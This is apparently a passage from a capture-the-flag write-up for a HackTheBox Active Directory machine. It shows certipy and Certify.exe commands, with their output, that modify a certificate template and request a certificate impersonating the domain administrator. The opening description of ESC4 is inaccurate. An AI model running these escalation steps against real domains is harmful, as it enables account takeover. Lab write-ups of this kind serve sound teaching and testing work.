 > **ESC4** abuses the Key Credentials property of Active Directory accounts, allowing an attacker to authenticate as another user using a certificate-based authentication bypass.
</div>

####
We need to try to enable that vulnerable template in the target machine *(DunderMifflinAuthentication)*.
####
```ruby
KRB5CCNAME=$PWD/ca_svc.ccache faketime "2025-05-06 15:24:37" certipy template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
    Result ->
        [*] Updating certificate template 'DunderMifflinAuthentication'
        [*] Successfully updated 'DunderMifflinAuthentication'
```
#### 
Is necessary execute the `date` or `ntpdate sequel.htb` each time that you execute a command that present the Kerberos clock error. All this proccess must be do very fast because so time the machine **return** ownership to **ca_svc** user.
####
The next is get a **pfx** authenticated file:
####
```ruby
faketime "2025-05-06 15:30:35" certipy req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
    Result ->
        [+] Trying to resolve 'sequel.htb' at '10.10.11.51'
        [+] Generating RSA key
        [*] Requesting certificate via RPC
        [+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
        [+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
        [-] Got error while trying to request certificate: code: 0x8009480f - CERTSRV_E_SUBJECT_DNS_REQUIRED - The Domain Name System (DNS) name is unavailable and cannot be added to the Subject  Alternate name.
        [*] Request ID is 27
        Would you like to save the private key? (y/N) y
        [*] Saved private key to 27.key
        [-] Failed to request certificate
```
####
In my case this aproach don't work, the key is generated in my machine, but only with key i can't achive nothing, so other aproach is use **certify** in the target machine, uploading the file using the evil-winrm session `upload Certify.exe`, we can execute the next command:
####
```ruby
Certify.exe request /ca:DC01.sequel.htb\sequel-DC01-CA /template:DunderMifflinAuthentication /altname:Administrator
    Result ->
          _____          _   _  __
         / ____|        | | (_)/ _|
        | |     ___ _ __| |_ _| |_ _   _
        | |    / _ \ '__| __| |  _| | | |
        | |___|  __/ |  | |_| | | | |_| |
         \_____\___|_|   \__|_|_|  \__, |
                                    __/ |
                                   |___./
        v1.0.0

        [*] Action: Request a Certificates

        [*] Current user context    : SEQUEL\ryan
        [*] No subject name specified, using current context as subject.

        [*] Template                : DunderMifflinAuthentication
```